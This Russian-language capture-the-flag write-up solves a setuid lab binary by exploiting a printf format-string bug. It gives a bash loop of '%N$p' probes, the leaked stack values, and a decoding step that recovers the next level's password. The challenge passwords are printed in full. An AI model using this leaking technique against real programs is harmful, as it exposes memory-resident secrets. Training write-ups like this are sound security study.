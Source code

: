 ## HowTo

```
> su level02
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```

### Инструменты:
- gdb + peda
- Ida Pro + hex rays

**NB:** Для работы с файлом стягиваем его на локальную машину

### Анализ и ход решения

1. Бинарь `./level02` с правами `level03`
2. На старте исполнения в буфер читается содержимое файла с паролем `/home/users/level03/.pass`
3. Затем запрашивается логин и пароль от пользователя. 
Пароль проверяется и если все ок, печатется буфер, содержащий `.pass`
4. Нас интересует шаг запроса логин \ пароля. 
Сообщение `--[ Username:` выводится через `printf`, доступный для взлома

**Идея взлома:**\
Т.к. пароль из `.pass` уже загружен в буфер на момент запроса логин, пароль - 
пробуем распечатать содержимое адресов на стеке, до которых можем дотянуться через `printf`

1. Подбираем +\- произвольное число итераций печати, в ходе экспериментов пришел к разумному числу `50`
```
for ((i = 1; i < 50; i++)); do echo "$i | %$i\$p" | ./level02; done | awk '/does not/'
```

2. Находим в аутпуте +\- разумные значения 

Все прошлые пароли состояли из 40 чаров, логично предположить, что и этот такой же.
Учитывая 16-ю систему, предполагаем, что наш пароль лежит в виде 5 последовательных значений (5 * 8 байт)
```
22 | 0x756e505234376848 does not have access!
23 | 0x45414a3561733951 does not have access!
24 | 0x377a7143574e6758 does not have access!
25 | 0x354a35686e475873 does not have access!
26 | 0x48336750664b394d does not have access!
```

3. Остается интерпретировать полученные значения.
Чуть форматируем наш цикл для удобства
```
for ((i = 1; i < 50; i++)); do echo "$i | %$i\$p" | ./level02; done | awk '/does not/{print $3}'

0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
0x48336750664b394d
```

4. Сохраняем в файлик локально и запускаем python-скрипт

Скрипт проходится по шестнадцетеричным значениям, инвертирует их (little endian), конкатенирует и декодит.
```
> python3 parse_hexes.py 
pass file name with hexes: hexes.txt

Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
